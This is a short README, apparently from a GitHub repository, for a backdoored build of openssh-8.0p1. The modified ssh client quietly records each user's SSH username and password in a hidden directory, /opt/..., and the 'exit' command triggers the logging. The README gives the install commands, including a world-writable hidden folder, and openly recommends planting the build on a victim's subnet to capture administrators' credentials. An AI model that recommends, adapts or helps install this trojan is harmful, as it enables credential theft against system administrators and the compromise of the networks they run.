 # OPENSSH 8 BACKDOORED
This is backdoored version of openssh-8.0p1, the ssh client will log ssh username and ssh password into /opt/.../log.txt

# INSTALLATION
<pre>
sudo mkdir -p /opt/...
sudo chmod 777 /opt/...

git clone https://github.com/bluedragonsecurity/openssh8_trojanned.git
cd openssh8_trojanned
./configure
make
sudo make install
</pre>

# WHAT THE HELL IS THIS ?
this backdoored version of openssh is ideal to install on a victim's subnet which has many ssh accesses. 
Everytime the administrator using the ssh client, typing password and finish his session using **exit** command, the ssh client will log the username and the password into /opt/.../log.txt.
The "exit" command is the trigger to log username and password


